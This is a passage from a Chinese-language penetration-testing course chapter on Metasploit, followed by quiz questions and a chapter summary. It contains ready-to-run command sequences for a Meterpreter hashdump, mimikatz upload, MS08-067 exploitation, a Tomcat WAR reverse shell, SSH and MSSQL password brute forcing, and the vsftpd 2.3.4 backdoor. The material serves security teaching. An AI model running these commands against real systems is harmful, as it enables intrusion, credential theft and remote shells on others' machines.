meterpreter > hashdump
```

**上传文件：**
```
meterpreter > upload /root/tools/mimikatz.exe
```

**开远程桌面：**
```
meterpreter > run post/windows/manage/enable_rdp
```

...

这些我们下一章会详细讲。

---

## 📚 案例讲解

### 案例1：利用MS08-067拿下Windows XP

**场景：**
目标是一台Windows XP SP3，
开了445端口，
存在MS08-067漏洞。

**利用过程：**

```
msf6 > use exploit/windows/smb/ms08_067_netapi
msf6 exploit(...) > set RHOSTS 192.168.1.10
msf6 exploit(...) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST 192.168.1.100
msf6 exploit(...) > set LPORT 4444
msf6 exploit(...) > exploit
```

**结果：**
拿到SYSTEM权限的Meterpreter Shell。

**MS08-067**是一个非常古老但非常经典的漏洞，
当年"冲击波"病毒就是利用类似的漏洞。
虽然老，
但内网中还是能遇到未打补丁的老系统。

---

### 案例2：Tomcat后台弱口令+WAR包上传

**场景：**
目标开了Tomcat，
8080端口，
后台manager/html用弱口令（tomcat/tomcat）可以登录。

**利用过程：**

**第一步：生成WAR包Payload**
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f war -o shell.war
```

**第二步：用Tomcat部署WAR包**
登录Tomcat后台，
上传shell.war并部署。

**第三步：本地监听**
```
msf6 > use exploit/multi/handler
msf6 exploit(...) > set PAYLOAD java/jsp_shell_reverse_tcp
msf6 exploit(...) > set LHOST 192.168.1.100
msf6 exploit(...) > set LPORT 4444
msf6 exploit(...) > exploit -j
```

**第四步：访问部署的应用**
浏览器访问`http://target:8080/shell/`，
触发Payload。

**结果：**
拿到Tomcat权限的Shell。

**启示：**
Metasploit不仅能利用系统漏洞，
还能配合各种Web漏洞来用。
WAR包上传是Tomcat最经典的攻击方式之一。

---

### 案例3：SSH弱口令爆破

**场景：**
目标开了22端口，
用的是SSH服务，
怀疑有弱口令。

**利用过程：**

用MSF的辅助模块来爆破：

```
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 50
msf6 auxiliary(scanner/ssh/ssh_login) > run
```

**结果：**
爆破出几台机器的root密码，
直接拿到Shell。

**启示：**
MSF不只是exploit，
辅助模块也非常强大。
端口扫描、服务识别、密码爆破...
都可以用MSF来做。

---

### 案例4：MSSQL弱口令拿Shell

**场景：**
目标开了1433端口，
MSSQL数据库，
sa账号弱口令。

**利用过程：**

**第一步：爆破sa密码**
```
msf6 > use auxiliary/scanner/mssql/mssql_login
msf6 auxiliary(...) > set RHOSTS 192.168.1.100
msf6 auxiliary(...) > set USERNAME sa
msf6 auxiliary(...) > set PASSWORD 123456
msf6 auxiliary(...) > run
```

**第二步：利用MSSQL执行命令**
```
msf6 > use exploit/windows/mssql/mssql_payload
msf6 exploit(...) > set RHOSTS 192.168.1.100
msf6 exploit(...) > set USERNAME sa
msf6 exploit(...) > set PASSWORD 123456
msf6 exploit(...) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST 192.168.1.100
msf6 exploit(...) > run
```

**结果：**
通过MSSQL的xp_cmdshell执行命令，
拿到系统权限的Shell。

**启示：**
数据库弱口令是非常常见的问题，
尤其是在内网中。
拿到数据库权限往往意味着直接拿到系统权限。

---

### 案例5：利用vsftpd后门获取Shell

**场景：**
目标开了21端口，
vsftpd 2.3.4版本，
这个版本有一个著名的后门漏洞。

**利用过程：**

```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(...) > set RHOSTS 192.168.1.100
msf6 exploit(...) > run
```

**结果：**
直接拿到root权限的Shell。

**vsftpd 2.3.4的后门**是一个很有趣的故事：
当年vsftpd的官网被入侵，
黑客在2.3.4版本的源代码里植入了后门。
只要用户名以`:)`结尾，
就会触发后门，
在6200端口开一个Shell。

这个故事告诉我们：
**软件供应链也可能被攻击。**

---

## ✏️ 课后习题

### 选择题

1. Metasploit是谁创建的？
   - A. Kevin Mitnick
   - B. HD Moore
   - C. Adrian Lamo
   - D. Gary McKinnon

2. Metasploit的主要编程语言是？
   - A. Python
   - B. Perl
   - C. Ruby
   - D. C++

3. 以下哪个是漏洞利用模块？
   - A. Payload
   - B. Exploit
   - C. Auxiliary
   - D. Post

4. 以下哪个是后渗透模块？
   - A. Payload
   - B. Exploit
   - C. Auxiliary
   - D. Post

5. Meterpreter是什么？
   - A. 一种漏洞
   - B. 一种高级Payload
   - C. 一种扫描器
   - D. 一种编码器

6. 生成Payload用哪个工具？
   - A. msfconsole
   - B. msfvenom
   - C. msfdb
   - D. msfupdate

7. 在msfconsole中，搜索模块用什么命令？
   - A. find
   - B. search
   - C. look
   - D. locate

8. 加载模块用什么命令？
   - A. load
   - B. use
   - C. select
   - D. open

9. 设置参数用什么命令？
   - A. set
   - B. config
   - C. param
   - D. option

10. 执行exploit用什么命令？
    - A. start
    - B. go
    - C. run / exploit
    - D. execute

11. 查看当前模块的选项用什么命令？
    - A. show options
    - B. show params
    - C. list options
    - D. view options

12. 管理多个会话用什么命令？
    - A. jobs
    - B. sessions
    - C. shells
    - D. connections

13. 把当前会话放到后台用什么快捷键？
    - A. Ctrl+C
    - B. Ctrl+D
    - C. Ctrl+Z
    - D. Ctrl+X

14. 以下哪个是编码器？
    - A. shikata_ga_nai
    - B. meterpreter
    - C. eternalblue
    - D. ms17_010

15. exploit/multi/handler是用来做什么的？
    - A. 扫描漏洞
    - B. 监听连接，接收Shell
    - C. 生成Payload
    - D. 后渗透

### 填空题

1. Metasploit的六大模块是 Exploits、_______、Auxiliary、Post、_______、Nops。
2. 漏洞利用模块叫 _______，攻击载荷模块叫 _______。
3. Metasploit Framework的命令行交互界面叫 _______。
4. 生成Payload的工具叫 _______。
5. 最著名的Meterpreter编码器是 _______。
6. 搜索模块用 _______ 命令，加载模块用 _______ 命令。
7. 设置参数用 _______ 命令，执行用 _______ 命令。
8. 管理多个会话用 _______ 命令。
9. MS17-010漏洞又叫 _______。
10. Metasploit是用 _______ 语言编写的。

### 简答题

1. 什么是Metasploit？它主要有什么功能？
2. Metasploit的六大模块分别是什么？各有什么作用？
3. 什么是Exploit？什么是Payload？两者有什么关系？
4. 什么是Meterpreter？它和普通Shell有什么区别？
5. msfvenom是做什么的？列举3种你知道的Payload生成命令。
6. 简述用Metasploit进行一次漏洞利用的基本流程。
7. 什么是编码器？它有什么作用？
8. exploit/multi/handler是做什么的？什么时候用它？

### 实操题

1. 在Kali中启动msfconsole，熟悉基本命令（help、search、use、show options、set、run、back、sessions等）。
2. 用msfvenom生成一个Windows反向TCP的exe Payload。
3. 搭建一个MS17-010的靶机（或者用vulhub），尝试用MSF打一下。
4. 用MSF的辅助模块扫描一个目标的端口（比如scanner/portscan/tcp）。
5. 用exploit/multi/handler做一个监听，然后用自己生成的Payload测试一下连通性。

---

## 📝 本章小结

这一章我们学习了Metasploit的基础知识，
内容非常多，
让我们来总结一下：

### Metasploit是什么
- 开源的渗透测试框架
- 由HD Moore在2003年创建
- 现在由Rapid7维护
- 渗透测试的标准工具

### 六大模块
1. **Exploits**：漏洞利用模块，"怎么打进去"
2. **Payloads**：攻击载荷，"打进去之后干什么"
3. **Auxiliary**：辅助模块，扫描、爆破、信息收集
4. **Post**：后渗透模块，拿到Shell之后做的事
5. **Encoders**：编码器，给Payload编码，尝试免杀
6. **Nops**：空指令模块，NOP雪橇

### msfconsole常用命令
- `help`：帮助
- `search`：搜索模块
- `use`：使用模块
- `info`：模块信息
- `show options`：查看选项
- `set / unset`：设置/取消参数
- `run / exploit`：执行
- `back`：返回
- `sessions`：会话管理

### msfvenom
- 生成各种格式的Payload
- 支持Windows、Linux、Mac、Android等
- 支持exe、dll、elf、apk、php、war等格式
- 可以编码

### 基本流程
1. 信息收集（Auxiliary扫描）
2. 找漏洞（搜索exploit）
3. 设置参数（RHOSTS、PAYLOAD、LHOST...）
4. 执行（run/exploit）
5. 拿到Shell
6. 后渗透（Post模块）

Metasploit的功能非常强大，
这一章只是入门，
下一章我们会深入学习Meterpreter，
那才是MSF最精彩的部分！

我们下一章见！

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day044-senior-高级篇总览)
- [➡️ 下一章：---](/redteam/day046-senior-Meterpreter深入)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
